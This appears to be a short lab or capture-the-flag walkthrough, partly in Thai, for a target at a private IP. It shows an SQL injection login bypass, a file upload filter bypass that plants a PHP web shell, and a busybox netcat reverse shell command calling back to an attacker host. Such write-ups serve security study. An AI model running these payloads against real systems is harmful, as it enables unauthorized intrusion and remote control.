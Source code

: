 ## TCP 80 (HTTP)

![[Pasted image 20250709102216.png]]

## TCP 9443

![[Pasted image 20250709102502.png]]

![[Pasted image 20250709102525.png]]

![[Pasted image 20250709102636.png]]
### SQL injection

![[Pasted image 20250709102852.png]]


```payload
admin' OR 1=1 -- -
123456
```

![[Pasted image 20250709102928.png]]

### upload file

![[Pasted image 20250709103223.png]]

### Try to upload shell 

![[Pasted image 20250709111721.png]]

ดำเนินการ Inject ด้วย Burpsuite และแก้ไข Content จากชื่อไฟล์ shell.pHp.jpg เป้น shell.php
```http
Content-Disposition: form-data; name="avatar"; filename="shell.php"
```

![[Pasted image 20250709111920.png]]

ตรวจสอบ Path อยู่ที่ `https://192.168.193.103:9443/uploadImage/shell.php?cmd=id`
![[Pasted image 20250709111952.png]]

# Shell as www-data

Shell Payload `busybox%20nc%20192.168.45.227%204444%20-e%20sh`
`https://192.168.193.103:9443/uploadImage/shell.php?cmd=busybox%20nc%20192.168.45.227%204444%20-e%20sh`
![[Pasted image 20250709112336.png]]
